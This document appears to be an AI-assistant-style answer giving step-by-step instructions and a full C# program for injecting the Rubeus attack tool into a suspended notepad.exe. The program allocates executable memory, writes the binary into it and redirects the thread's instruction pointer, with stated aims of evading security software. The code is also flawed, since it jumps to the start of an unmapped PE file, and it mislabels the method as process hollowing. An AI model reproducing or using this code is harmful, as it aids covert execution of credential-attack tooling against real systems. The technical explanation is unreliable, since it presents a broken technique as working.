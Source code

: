 Running an executable like Rubeus through process injection involves injecting the binary of the executable into another process and executing it from within that process. This technique can be useful in various scenarios, such as avoiding detection by security software, hiding the presence of certain executables, or bypassing certain restrictions.

To implement this in C#, you can follow these general steps:

1. **Read the Executable into Memory**: Load the `.exe` file (like Rubeus) into a byte array.
2. **Create a Target Process in a Suspended State**: Create a process where the injection will take place.
3. **Inject the Binary into the Target Process**: Write the binary data into the memory space of the target process.
4. **Set the Entry Point and Resume the Thread**: Modify the entry point to point to the injected code and then resume the process so it executes the injected code.

### Here's how you can do it:

1. **Read the Executable into Memory**:
   - Load the `.exe` file (like Rubeus) into a byte array.

2. **Create a Suspended Process**:
   - Use the `CreateProcess` function to create a target process in a suspended state.

3. **Inject the Binary**:
   - Allocate memory in the target process using `VirtualAllocEx`.
   - Write the binary data to the allocated memory using `WriteProcessMemory`.

4. **Set the Entry Point**:
   - Modify the entry point to point to the injected binary using `GetThreadContext` and `SetThreadContext`.

5. **Resume the Thread**:
   - Resume the process thread using `ResumeThread`.

### Example C# Code:

Below is an example C# code that demonstrates how to inject an executable into another process.

```csharp
using System;
using System.Diagnostics;
using System.IO;
using System.Runtime.InteropServices;
using Windows.Win32;
using Windows.Win32.Foundation;
using Windows.Win32.System.Memory;
using Windows.Win32.System.Threading;

class Program
{
    static void Main(string[] args)
    {
        // Path to the executable you want to inject (e.g., Rubeus.exe)
        string exePath = @"C:\path\to\Rubeus.exe";
        byte[] exeBytes = File.ReadAllBytes(exePath);

        // Target process (e.g., notepad.exe)
        string targetProcessPath = @"C:\Windows\System32\notepad.exe";

        // Step 1: Create the target process in a suspended state
        PROCESS_INFORMATION pi = default;
        STARTUPINFO si = new STARTUPINFO();
        bool success = PInvoke.CreateProcess(null, targetProcessPath, null, null, false, CREATE_PROCESS.CREATE_SUSPENDED, null, null, si, ref pi);

        if (!success)
        {
            throw new InvalidOperationException("Failed to start the target process.");
        }

        try
        {
            // Step 2: Allocate memory in the target process
            IntPtr remoteBuffer = PInvoke.VirtualAllocEx(pi.hProcess, IntPtr.Zero, (nuint)exeBytes.Length, MEM_ALLOCATION_TYPE.MEM_COMMIT | MEM_ALLOCATION_TYPE.MEM_RESERVE, PAGE_PROTECTION_FLAGS.PAGE_EXECUTE_READWRITE);

            if (remoteBuffer == IntPtr.Zero)
            {
                throw new InvalidOperationException("Failed to allocate memory in the target process.");
            }

            // Step 3: Write the executable into the allocated memory
            bool written = PInvoke.WriteProcessMemory(pi.hProcess, remoteBuffer, exeBytes, (nuint)exeBytes.Length, out _);

            if (!written)
            {
                throw new InvalidOperationException("Failed to write the executable into the target process.");
            }

            // Step 4: Get the context of the thread
            CONTEXT context = new CONTEXT();
            context.ContextFlags = CONTEXT_FLAGS.CONTEXT_FULL;

            if (!PInvoke.GetThreadContext(pi.hThread, ref context))
            {
                throw new InvalidOperationException("Failed to get the thread context.");
            }

            // Step 5: Set the entry point to the injected code
            context.Rip = (ulong)remoteBuffer.ToInt64(); // Set RIP to the start of the injected code (for x64)

            if (!PInvoke.SetThreadContext(pi.hThread, ref context))
            {
                throw new InvalidOperationException("Failed to set the thread context.");
            }

            // Step 6: Resume the thread to execute the injected code
            PInvoke.ResumeThread(pi.hThread);
        }
        finally
        {
            // Clean up handles
            PInvoke.CloseHandle(pi.hProcess);
            PInvoke.CloseHandle(pi.hThread);
        }
    }
}
```

### Key Points:

1. **Reading the Executable**: The binary data of the executable (e.g., Rubeus) is read into a byte array.
2. **Process Creation**: A target process is created in a suspended state using `CreateProcess`.
3. **Memory Allocation and Writing**: Memory is allocated in the target process's space, and the binary data is written into it using `VirtualAllocEx` and `WriteProcessMemory`.
4. **Thread Context Manipulation**: The thread context is manipulated to set the instruction pointer to the start of the injected code using `GetThreadContext` and `SetThreadContext`.
5. **Executing the Injected Code**: The thread is resumed with `ResumeThread`, causing it to execute the injected code.

### Important Considerations:

- **Permissions**: Ensure you have the necessary permissions to inject code into the target process.
- **Security**: This code should only be used in environments where you have explicit permission to perform such actions, such as in controlled penetration testing scenarios.
- **Error Handling**: The code includes basic error handling. You may want to extend this based on your needs.

This code demonstrates a basic example of process injection, specifically tailored for running an executable like Rubeus through a process hollowing technique.